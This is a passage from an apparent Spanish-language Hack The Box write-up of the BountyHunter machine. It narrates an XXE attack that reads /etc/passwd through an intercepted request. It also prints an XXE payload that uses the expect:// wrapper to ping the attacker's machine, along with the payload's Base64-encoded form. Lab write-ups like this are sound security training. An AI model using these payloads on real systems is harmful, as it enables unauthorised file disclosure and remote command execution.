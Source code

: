 ![Preparación de estructura XML maliciosa para ataque XXE](/assets/img/HTB/BountyHunter/preparingxxe.png)

Una vez codificada la nueva estructura, vuelvo a interceptar una petición mediante *BurpSuite* y cambio el valor de "data" por el código en Base64 obtenido. Al enviar la petición modificada, se muestra en la página el contenido del fichero "/etc/passwd" correctamente, por lo que el ataque XXE ha funcionado correctamente.

![Éxito al realizar el ataque XXE](/assets/img/HTB/BountyHunter/xxesuccess.png)

Con esto, descubro el usuario "development", que no se trata de un usuario creado por el sistema o por algún servicio porque su identificador (UID) es superior a 1000. Al tener su directorio personal (/home/developer), intento obtener su clave privada RSA para el servicio SSH, que me permitiría conectarme a la máquina víctima como este usuario, pero, lamentablemente, esta clave no existe o no se encuentra en la ruta "/home/devoloper/.ssh/id_rsa". También probé si contaba con ejecución remota de comandos utilizando el *wrapper* "expect" para lanzar un ping a mi máquina, pero, como puede observarse, no recibo ningún paquete, por lo que no es posible la ejecución de comandos por esta vía.

```
# cat xxe.xml

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "expect://ping 10.10.14.214"> ]>
        <bugreport>
                <title>Proof</title>
                <cwe>&xxe;</cwe>
                <cvss>9.4</cvss>
                <reward>30</reward>
        </bugreport>

# cat xxe.xml | base64 -w 0

PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI/Pgo8IURPQ1RZUEUgZm9vIFsgPCFFTlRJVFkgeHhlIFNZU1RFTSAiZXhwZWN0Oi8vcGluZyAxMC4xMC4xNC4yMTQiPiBdPgogICAgICAgIDxidWdyZXBvcnQ+CiAgICAgICAgICAgICAgICA8dGl0bGU+UHJvb2Y8L3RpdGxlPgogICAgICAgICAgICAgICAgPGN3ZT4meHhlOzwvY3dlPgogICAgICAgICAgICAgICAgPGN2c3M+OS40PC9jdnNzPgogICAgICAgICAgICAgICAgPHJld2FyZD4zMDwvcmV3YXJkPgogICAgICAgIDwvYnVncmVwb3J0Pgo=                                                                                                                                                                                                                                             
```